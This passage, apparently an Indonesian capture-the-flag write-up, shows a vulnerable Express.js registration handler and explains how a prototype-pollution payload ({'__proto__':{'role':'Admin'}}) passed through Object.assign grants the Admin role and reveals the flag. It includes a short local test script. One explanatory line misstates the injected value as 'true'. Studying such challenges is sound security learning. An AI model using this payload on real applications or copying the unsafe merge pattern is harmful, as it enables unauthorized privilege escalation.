 ```js
app.post('/register', (req, res) => {
    let user = JSON.parse(req.body); // <- vuln dengan prototype polution
    
    // Haha, even you can set your role to Admin, but you don't have the secret!
    if (user.role == "Admin") {
        console.log(user.secret);
        if(user.secret !== secret.value) return res.send({
            "message": "Wrong secret! no Admin!"
        });
        return res.send({
            "message": "Here is your flag!",
            secret: secret.value
        });
    }
    
    let newUser = Object.assign(baseUser, user); // <- vuln dengan prototype polution
    if(newUser.role === "Admin") {
        return res.send({
            "message": "Here is your flag!",
            secret: secret.value
        });
    }

    else return res.send({
        "message": "No Admin? no flag!"
    });
})
```

Untuk eksploitasinya kita perlu memasukkan `{"__proto__":{"role":"Admin"}}` untuk merubah prototype dari class `Object` menjadi `.role` dengan value `true`.

Untuk lebih jelasnya kita bisa melakukan test seperti dibawah ini.

```js
let user = JSON.parse('{"__proto__":{"role":"Admin"}}');
    
const baseUser = {
    "picture": "profile.jpg"
}
let newUser = Object.assign(baseUser, user);
console.log(newUser)
console.log(newUser.role)
```

Setelah kita jalankan maka akan menghasilkan output seperti dibawah.

![](https://i.imgur.com/TjLfj8W.png)

Dengan proto type polution kita bisa membuat prototype baru dari `Object` dan nantinya kita bisa mengaksesnya menggunakan `newUser.role`.

Lanjut ke exploitasi, kita perlu untuk mengirimkan payload `{"__proto__":{"role":"Admin"}}` untuk membypass login page.
